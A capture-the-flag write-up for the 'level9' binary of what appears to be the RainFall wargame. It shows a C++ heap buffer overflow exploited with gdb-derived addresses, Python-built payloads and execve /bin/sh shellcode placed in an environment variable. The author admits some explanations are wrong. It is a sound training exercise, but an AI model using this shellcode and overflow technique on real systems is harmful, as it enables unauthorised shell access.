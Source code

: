 # Write up

## Note
 
- Some explanations here are wrong, I will correct them later, maybe...

First of all, we have lots of strange functions which we assume be C++ after some research, this concerns some of those calls (GOT) :
```
08049b80 R_386_COPY        _ZTVN10__cxxabiv117__class_type_infoE
08049b58 R_386_JUMP_SLOT   _ZNSt8ios_base4InitC1Ev
08049b64 R_386_JUMP_SLOT   _ZNSt8ios_base4InitD1Ev
08049b70 R_386_JUMP_SLOT   _Znwj
```
We have first to understand what those functions do.
We can demangle it using the objdump `-C` flag.
```
objdump -M intel -d bin9 -C > asm9_intel_unm.txt
```
Which give us a dissassembled file with clear C++ symbols names.

While reverse enginering the program we tried to check the exit codes :
```
level9@RainFall:~$ ./level9 e e
level9@RainFall:~$ echo $?
11
level9@RainFall:~$ ./level9
level9@RainFall:~$ echo $?
1
```
The program exits with the code 1 with no arguments, as expected.
But with argument it exits with the exit code 11, which help us to understand the code better.
After translation, we get an unprotected buffer with a size of 108, we try with a dummy payload :
```
level9@RainFall:~$ ./level9 $(python -c "print 'A' * 108")
level9@RainFall:~$ ./level9 $(python -c "print 'A' * 109")
Segmentation fault (core dumped)
```
Great, we can try, like the level2 exercice to execute the ret2libc exploit, however we have only a 4 byte range to exploit the overflow here.
So our payload will have to be inside the buffer, which as saved EIP an in-buffer address.
We get it using gdb :
```
level9@RainFall:~$ gdb level9
(gdb) break* 0x8048738
(gdb) run $(python -c "print 'A' * 108")
(gdb) x/40xw $eax
0x804a00c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a01c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a02c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a03c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a04c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a05c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a06c:      0x41414141      0x41414141      0x41414141      0x08048848
0x804a07c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a08c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a09c:      0x00000000      0x00000000      0x00000000      0x00000000
```
By checking the memcpy result in the eax register, we can notice our A padding, and the `0x08048848` address which was set at the saved EIP we found in the source code.
The base address is `0x804a00c`.
We build then a new payload :
```
# eax memory segment here
0x804a00c:      0xb7d86060      0x4c44494c      0xb7ea7c58      0x41414141
0x804a01c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a02c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a03c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a04c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a05c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a06c:      0x41414141      0x41414141      0x41414141      0x0804a00c
0x804a07c:      0x00000000      0x00000000      0x00000000      0x00000000
# Payload
./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x58\x7c\xea\xb7' + 'A' * 96 + '\x0c\xa0\x04\x08'")
sh: 1:
       �: not found
```
Which seems to execute the `/bin/sh` command, however, even with piping from cat -, it seems that we can't keep our shell.
To avoid this issue, we will need a `/bin/sh\0` string :
```
export LIDL="/bin/sh\0"
echo 'void main(){printf("%p\n", getenv("LIDL"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 # 0xbfffff35 here
# New payload
./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x35\xff\xff\xbf' + 'A' * 96 + '\x0c\xa0\x04\x08'")
```
However, still our `not found` error, which exposed a mistake of mine :
```
level9@RainFall:~$ ./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x36\xff\xff\xaf' + 'A' * 96 + '\x0c\xa0\x04\x08'") 2>&1 | hd
00000000  73 68 3a 20 31 3a 20 [0c  a0 04 08] 3a 20 6e 6f 74  |sh: 1: ....: not|
00000010  20 66 6f 75 6e 64 0a                              | found.|
00000017
```
The 4 chars highlighted here are our (overwriten) saved EIP address, which is totaly normal since that even if we execute a system function, we're still in the setAnnotation stack frame.
 
We saw before that we can get the address of an environnement variable, so we will store in the environnement a generic shell code which opens a shell and get its address :
```
export LIDLCODE=$(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
echo 'void main(){printf("%p\n", getenv("LIDLCODE"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 # 0xbfffff94 here
# Final payload
./level9 $(python -c "print '\x98\xff\xff\xbf' +  'A' * 104 + '\x0c\xa0\x04\x08'") # 4 bytes farther
```
Which gives us our flag, Hooray !
Bonus starts at the next episode.

## Sources

https://beta.hackndo.com/buffer-overflow/ (Generic shellcode found here)
https://stackoverflow.com/questions/47890484/undefined-symbol-during-dlopen
http://repository.root-me.org/Reverse%20Engineering/EN%20-%20Reversing%20C++%20-%20Blackhat%20-%20Yason%20Sabanal%20-%20paper.pdf
https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int
